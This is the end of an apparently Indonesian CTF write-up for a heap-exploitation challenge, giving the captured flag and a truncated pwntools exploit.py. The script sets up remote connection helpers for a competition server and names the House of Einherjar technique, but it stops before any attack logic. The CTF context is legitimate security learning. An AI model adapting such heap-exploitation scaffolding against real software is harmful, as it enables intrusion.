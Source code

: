 ### Flag

_**hacktoday{soalnya\_dibikin\_dadakan\_karena\_ada\_probset\_yang\_buat\_soal\_tapi\_gaada\_solvernya\_muehehehe\_\_\_ZafiN}**_

***

## Appendix

{% code title="exploit.py" lineNumbers="true" %}
```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './soal'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
host, port = '103.181.183.216', 17005

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x401611
'''.format(**locals())

def alloc(idx, size):
    io.sendlineafter(b'choice', b'1')
    io.sendlineafter(b'idx', str(idx).encode())
    io.sendlineafter(b'size', str(size).encode())
    
def write(idx, content):
    io.sendlineafter(b'choice', b'2')
    io.sendlineafter(b'idx', str(idx).encode())
    io.sendafter(b'content', content)
    
def read(idx):
    io.sendlineafter(b'choice', b'3')
    io.sendlineafter(b'idx', str(idx).encode())
    io.recvuntil(b'content : ')
    return io.recvline()

def delete(idx):
    io.sendlineafter(b'choice', b'4')
    io.sendlineafter(b'idx', str(idx).encode())

# =========================================================
#                         EXPLOITS
# =========================================================
# House Of Einherjar
# https://heap-exploitation.dhavalkapil.com/attacks/house_of_einherjar
# https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/house_of_einherjar/

```